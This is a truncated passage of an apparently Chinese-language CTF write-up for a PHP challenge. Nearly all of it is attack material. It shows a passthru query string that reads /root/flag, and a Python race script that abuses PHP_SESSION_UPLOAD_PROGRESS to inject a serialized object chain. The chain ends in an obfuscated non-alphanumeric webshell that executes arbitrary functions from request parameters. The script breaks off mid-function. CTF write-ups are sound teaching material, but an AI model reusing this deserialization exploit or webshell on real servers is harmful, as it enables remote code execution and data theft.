 用途

![20210201014859982](img/20210201014859982.png)

然后提取 flag

```
?_=passthru&__=xxd "/root/flag"| xxd -r
```

脚本(改url和数据包里的Host)

```python
# -*- coding:utf-8 -*-

import io
import requests
import threading
import re
import HackRequests

sessid = 'flag'
url = "http://neepusec.club:18812"
raw = \
'''POST /index.php HTTP/1.1
Host: neepusec.club:18812
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------17167262834166658353292847628
Content-Length: 898
Connection: close
Cookie: NEEPUSECID=flag
Upgrade-Insecure-Requests: 1

-----------------------------17167262834166658353292847628
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

12101
-----------------------------17167262834166658353292847628
Content-Disposition: form-data; name="file"; filename="|O:4:\\"dumb\\":1:{s:4:\\"dumb\\";O:5:\\"neepu\\":3:{s:4:\\"data\\";N;s:5:\\"neepu\\";O:5:\\"neepu\\":3:{s:4:\\"data\\";N;s:5:\\"neepu\\";N;s:4:\\"info\\";a:1:{s:4:\\"info\\";O:5:\\"n33pu\\":1:{s:4:\\"func\\";O:8:\\"backdoor\\":1:{s:3:\\"cmd\\";s:230:\\"$_=[];$_=@\\"$_\\";$_=$_[\\"!\\"==\\"@\\"];$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__++;$__++;$____=\\"_\\";$____.=$__;$____.=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$_[_]($_[__]);\\";}}}}s:4:\\"info\\";a:1:{s:4:\\"info\\";O:5:\\"n33pu\\":1:{s:4:\\"func\\";N;}}}}"
Content-Type: application/octet-stream


-----------------------------17167262834166658353292847628--
'''

def write(session):
    while True:
        resp = hack.httpraw(raw)
```